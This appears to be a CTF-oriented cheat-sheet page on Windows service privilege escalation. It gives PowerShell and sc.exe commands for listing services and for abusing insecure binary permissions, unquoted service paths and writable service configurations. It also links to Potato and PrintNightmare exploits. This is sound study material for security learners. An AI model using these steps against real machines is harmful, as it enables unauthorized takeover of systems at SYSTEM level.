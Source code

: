 # Windows services

[![windowsprivesc20](../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)
[![steelmountain](../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

<div class="row row-cols-lg-2"><div>

You can learn more about Windows services [here](/operating-systems/windows/_knowledge/index.md#windows-services).

* 🗺️ List services

```shell!
PS> Get-Service
PS> net start
PS> sc.exe query # with infos
```

* 🔎 Get more info about a service

```shell!
PS> sc.exe qc xxx
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: xxx
  [...]
  BINARY_PATH_NAME   : C:\[...]\service.exe
  [...]
```

🔥 In CTFs, you may be able to start/stop the service manually

```shell!
PS> sc.exe stop xxx
PS> # do your job
PS> sc.exe start xxx
```

➡️ See also: [Potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) 🥔 and [SweetPotato](https://github.com/CCob/SweetPotato) (1.2k ⭐).

👉 [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675) (CVE-2021-1675) vulnerability in Spooler service.

</div><div>

#### Common flaws

➡️ **Insecure permissions**: the current user may be able to replace the service with a malicious executable (ex: revshell.exe)

```shell!
PS> icacls C:\[...]\service.exe
PS> move C:\[...]\service.exe C:\[...]\service.exe.old
PS> icacls C:\[...]\malicious.exe /grant Everyone:F
```

➡️ **Unquoted Service Paths**: if the service is using a PATH in which there are spaces, the service isn't quoted, and the hacker can create files, then the hacker may create an executable that is executed with the rest of the path in argument.

```shell!
PS> icacls $Env:appdata\Vulnerable Program\service.exe
PS> move C:\[...]\malicious.exe $Env:appdata\Vulnerable.exe
PS> # the service will execute
PS> # $Env:appdata\Vulnerable.exe Program\service.exe
```

➡️ **Insecure Service Permissions**: it occurs if we can edit the permissions of a service, such as being able to change the location of the binary. Use the [accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) command. If the user is granted `SERVICE_ALL_ACCESS` on the service, then have fun.

```shell!
PS> # LocalSystem is the highest privileged account available
PS> sc.exe config xxx binPath=C:\[...]\malicious.exe  obj= LocalSystem
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* It's recommended to use service accounts for services.
* Most services run with LocalSystem privileges by default
* From the SCM, we can configure an application to be executed if a service fails. If one was configured, it can be exploited.
</div><div>
</div></div>